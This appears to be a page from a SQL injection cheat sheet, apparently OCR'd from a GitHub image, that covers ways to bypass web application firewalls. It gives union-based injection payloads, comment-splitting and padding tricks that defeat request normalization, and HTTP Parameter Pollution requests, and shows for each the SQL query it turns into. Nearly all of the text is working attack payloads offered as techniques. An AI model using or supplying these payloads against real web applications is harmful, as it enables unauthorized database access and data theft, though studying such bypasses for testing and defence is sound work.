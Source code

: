 1.  Exploitation features for various DBMSs



```
  Example: (MySQL): SELECT * from table where id = 1 union select 1,2,3
  Example: (PostgreSQL): SELECT * from table where id = 1; select 1,2,3
```

**Bypassing WAF: SQL Injection - Normalization Method**
Example Number (1) of a vulnerability in the function of request
Normalization.
• The following request doesn’t allow anyone to conduct an attack

` /?id=1+union+select+1,2,3/*`

• If there is a corresponding vulnerability in the WAF, this request

` will be successfully performed`
` /?id=1/*union*/union/*select*/select+1,2,3/*`

• After being processed by WAF, the request will become

` index.php?id=1/*uni X on*/union/*sel X ect*/select+1,2,3/*`

The given example works in case of cleaning of dangerous traffic, not in
case of blocking the entire request or the attack source.
Example Number (2) of a vulnerability in the function of request
Normalization.
• Similarly, the following request doesn’t allow anyone to conduct an
attack

` /?id=1+union+select+1,2,3/*`

• If there is a corresponding vulnerability in the WAF, this request
will be successfully performed

` /?id=1+un/**/ion+sel/**/ect+1,2,3--`

• The SQL request will become

` SELECT * from table where id =1 union select 1,2,3--`

*Instead of construction /\*\*/, any symbol sequence that WAF cuts off
can be used (e.g., \#\#\#\#\#, %00).*

*The given example works in case of excessive cleaning of incoming data
(replacement of a regular expression with the empty string).*

**'Using HTTP Parameter Pollution (HPP)**'

• The following request doesn’t allow anyone to conduct an attack

` /?id=1;select+1,2,3+from+users+where+id=1--`

• This request will be successfully performed using HPP

` /?id=1;select+1&id=2,3+from+users+where+id=1--`

*Successful conduction of an HPP attack bypassing WAF depends on the
environment of the application being attacked.*
*\[<http://www>..org/images/b/ba/AppsecEU09_CarettoniDiPaola_v0.8.pdf
EU09 Luca Carettoni, Stefano diPaola\].*
